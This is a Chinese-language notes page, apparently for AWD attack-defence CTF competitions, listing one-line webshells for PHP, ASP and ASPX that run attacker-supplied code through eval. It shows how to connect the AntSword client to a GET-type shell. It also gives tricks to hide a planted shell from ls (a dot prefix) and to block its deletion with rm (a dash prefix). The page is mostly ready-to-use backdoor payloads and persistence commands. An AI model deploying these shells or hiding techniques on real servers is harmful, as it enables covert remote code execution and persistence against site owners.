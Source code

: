 ## 一句话木马

常用语言的一句话木马

```
php： <?php @eval($_POST['pass']);?>      <?php eval($_GET['pass']);
asp：   <%eval request ("pass")%>
aspx：  <%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

蚁剑连接get型木马，之前一直不会用蚁剑连接get型木马，这里记录一下。

```
<?php eval($_GET['pass']);

/shell.php?pass=eval($_POST[1]);
连接密码：1
```

## 隐藏shell

shell很容易被发现，被删除就gg了，可以采用一些操作隐藏shell或使shell无法被删除

**1.把shell.php命名为.shell.php**

.shell.php在执行ls时无法被查看到，搭配ls的参数才能被发现
完整命令如下

```
[sss@ecs-centos-7 awd]$ echo "iamshell">shell.php
[sss@ecs-centos-7 awd]$ ls
shell.php
[sss@ecs-centos-7 awd]$ mv shell.php .shell.php
[sss@ecs-centos-7 awd]$ ls
[sss@ecs-centos-7 awd]$ ls -al
总用量 12
drwxrwxr-x 2 sss sss 4096 12月  29 22:52 .
drwx------ 4 sss sss 4096 12月  29 22:51 ..
-rw-rw-r-- 1 sss sss    9 12月  29 22:52 .shell.php
```

**2.把shell.php命名为-shell.php**
从上面可以看出，ls加参数才能查看到shell，那么我们直接写一个-shell.php、
命令行会把-后面的内容当成参数执行，执行即使被发现，使用rm命令进行删除，会被当成是rm的参数，就会发生报错，无法删除shell，目的也达到了

完整命令如下

```
[sss@ecs-centos-7 awd]$ ls
-shell.php
[sss@ecs-centos-7 awd]$ rm -shell.php 
rm：无效选项 -- s
Try 'rm ./-shell.php' to remove the file "-shell.php".
Try 'rm --help' for more information.
[sss@ecs-centos-7 awd]$ rm -rf -shell.php 
rm：无效选项 -- s
Try 'rm ./-shell.php' to remove the file "-shell.php".
Try 'rm --help' for more information.
```

